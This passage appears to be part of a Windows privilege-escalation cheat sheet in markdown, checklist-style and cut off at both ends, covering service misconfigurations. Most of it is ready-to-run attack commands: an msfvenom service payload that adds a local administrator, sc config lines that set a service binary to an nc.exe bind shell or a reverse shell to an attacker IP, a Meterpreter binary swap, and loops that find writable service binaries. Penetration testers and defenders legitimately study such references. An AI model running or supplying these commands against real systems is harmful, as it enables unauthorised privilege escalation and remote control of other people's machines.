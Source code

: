 		gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '*'} | select PathName,DisplayName,Name
		
		# find them using msf 
		exploit/windows/local/trusted_service_path
		
		# generate service binary with msfvenom
		msfvenom -p windows/exec CMD="net localgroup administrators username /add" -f exe-service -o service.exe
		```
	- [ ] Change service binary path
		```powershell
		# if the group "Authenticated users" has SERVICE_ALL_ACCESS
		# it can modify the binary path
		
		# bind shell
		sc config <Service_Name> binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
		
		# reverse shell
		sc config <Service_Name> binpath= "cmd \c C:\Users\nc.exe <attacker-ip> 4444 -e cmd.exe"
		
		# add user to local admin group
		sc config <Service_Name> binpath= "net localgroup administrators username /add"
		
		# example using SSDPRV
		sc config SSDPSRV binpath= "C:\Documents and Settings\PEPE\meter443.exe"
		
		# then restart the service
		wmic service NAMEOFSERVICE call startservice
		net stop [service name] && net start [service name]
		```
	- [ ] DLL Hijacking / Overwrite service binary
		```powershell
		for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> %temp%\perm.txt

		for /f eol^=^"^ delims^=^" %a in (%temp%\perm.txt) do cmd.exe /c icacls "%a" 2>nul | findstr "(M) (F) :\"
		
		# do it by using sc
		sc query state= all | findstr "SERVICE_NAME:" >> C:\Temp\Servicenames.txt
		FOR /F "tokens=2 delims= " %i in (C:\Temp\Servicenames.txt) DO @echo %i >> C:\Temp\services.txt
		FOR /F %i in (C:\Temp\services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> C:\Temp\path.txt
		```
	- [ ] Registry modify permissions
		```powershell
		reg query hklm\System\CurrentControlSet\Services /s /v imagepath #Get the binary paths of the services
